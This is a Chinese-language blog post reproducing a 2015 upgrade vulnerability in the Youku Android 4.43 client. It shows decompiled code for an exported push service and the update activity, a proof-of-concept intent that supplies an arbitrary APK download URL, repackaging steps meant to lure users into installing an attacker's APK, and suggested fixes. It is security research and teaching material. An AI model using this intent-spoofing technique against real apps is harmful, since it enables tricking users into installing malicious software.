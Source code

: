 ```yaml
---
layout: post
title:  "优酷 Android 4.43客户端升级漏洞---复现"
date:   2024-09-14 12:00:00 +0800
categories: [bugs-dig,android] 
---
```




# 序言

4.5版本已经下载不到了,我找了一个4.43的版本。这版本是２０１５年的样子，现在都２０２４年了。

通过网盘分享的文件：youhu443_downcc.apk

链接: https://pan.baidu.com/s/1EN4mkPKu5uR_qgu57kuQiQ?pwd=n8j7 提取码: n8j7

安装在我安卓14的手机上,运行不起来.

安装在avd上也运行不起来,

所以没意义,QAQ



# 复现分析

wp: [优酷Android 4.5客户端升级漏洞](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-094635)



把apk托进iadx

组件com.youku.service.push.StartActivityService声明如下：

```
<service
android:label="Youku Push Notifications StartActivityService"  android:name="com.youku.service.push.StartActivityService" 
android:exported="true"
/>
```

可知该组件对外暴露。

该组件对应的代码执行部分如下

在文件 com.youku.service.push.StartActivityService.java中

```java
    @Override // android.app.IntentService
    protected void onHandleIntent(Intent i) {
        Intent i2;
        String track_id;
        final PushMsg msg = (PushMsg) i.getSerializableExtra("PushMsg");
        if (msg.mid != null) {
            String action = i.getStringExtra("action");
            PushUtils.notificationOpenFeedback(msg.mid, msg.type, action);
        }
        AppVersionManager.getInstance(Youku.context).showAppAgreementDialog();
        switch (msg.type) {
            case 1:
                i.setFlags(876609536);
                i.setClass(this, UpdateActivity.class);
                i.putExtra(UpdateActivity.KEY_URL, msg.updateurl);
                i.putExtra(UpdateActivity.KEY_NEW_VERSION, msg.updateversion);
                i.putExtra(UpdateActivity.KEY_CONTENT, msg.updatecontent);
                i.putExtra(UpdateActivity.KEY_UPDATE_TYPE, 2);
                startActivity(i);
                return;

```

　　我们可以发现从代码`i.getSerializableExtra("PushMsg")`中获知, Intent从获取名为**PushMsg**的Serializable的数据，并根据其成员type来执行不同的流程，当type值为1时，执行App的升级操作。升级所需的相关数据如app的下载地址等也是从该序列化数据中获取。

　　通过代码`i.setClass(this, UpdateActivity.class);`知, 升级的具体流程在com.youku.ui.activity.UpdateActivity中，简单分析后发现升级过程未对下载地址等进行判断，因此可以任意指定该地址。

　　在`com.youku.ui.activity.UpdateActivity`中,

```java
   @Override // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        requestWindowFeature(1);
        super.onCreate(savedInstanceState);
        Logger.d(TAG, "UpdateActivity.onCreate()");
        LayoutInflater mInflater = LayoutInflater.from(this);
        LinearLayout rootView = (LinearLayout) mInflater.inflate(R.layout.updateactvity, (ViewGroup) null);
        setContentView(rootView);
        Intent i = getIntent();
        if (i != null) {
            String url = i.getStringExtra(KEY_URL);
            String version = i.getStringExtra(KEY_NEW_VERSION);
            String content = i.getStringExtra(KEY_CONTENT);
            if (content == null) {
                content = "";
            }
            int updateType = -2;
            if (i.hasExtra(KEY_UPDATE_TYPE)) {
                updateType = i.getIntExtra(KEY_UPDATE_TYPE, 2);
            }
            UpdateManager um = new UpdateManager(this);
            if (updateType == 3) {
                um.setUpdateInfo(url, version, content, UpdateManager.UpdateType.force);
            } else if (updateType == 2) {
                um.setUpdateInfo(url, version, content, UpdateManager.UpdateType.push);
            } else if (updateType == -2) {
                um.setUpdateInfo(url, version, content, UpdateManager.UpdateType.check);
            } else {
                finish();
                return;
            }
            um.showNoticeDialog();
            return;
        }
        finish();
    }

```

先获取传递过来的Intent参数信息

然后做一些简单的判断,然后调用`UpdateManager.setUpdateInfo`, 期间并没有做一些检查

然后调用`UpdateManager.showNoticeDialog`提醒用户升级之类的



# 如何利用

　　该漏洞触发的关键在于对PushMsg数据的控制，基本思路如下：

　　创建一个Android App程序(但是得和YouKu app处于同一设备中,QAQ)，在主Activity中的关键代码如下：

```
PushMsg pushMsg = new PushMsg();
pushMsg.type = 1;
pushMsg.updateurl = "http://gdown.baidu.com/data/wisegame/41839d1d510870f4/jiecaojingxuan_51.apk";
//url传递为我们要指定那种的apk
pushMsg.updatecontent = "This is Fake";
		
Intent intent = new Intent();
intent.setClassName("com.youku.phone","com.youku.service.push.StartActivityService");
intent.putExtra("PushMsg", pushMsg);
startService(intent);//从外部启动YOuKu的service
```

　　其中PushMsg类不需要完整实现，只需要编译通过即可；

　　反编译优酷客户端的App得到smali代码，从中提取出PushMsg.smali；

　　反编译上述创建的APK文件，将原PushMsg类的smali文件替换为优酷中的PushMsg.smali文件，重新打包签名；　　

　　安装并运行重打包后的APK，会看到优酷的升级页面触发，如果设计的好的话，是可以诱导用户安装攻击者指定的APK文件的。



# 修复

组件不暴露、对升级地址（ＵＲＬ）进行判断、对下载的APK文件进行校验！

小结：

软件的升级是ａｐｐ的必备功能，那么这将是我们以后的漏洞挖掘方向．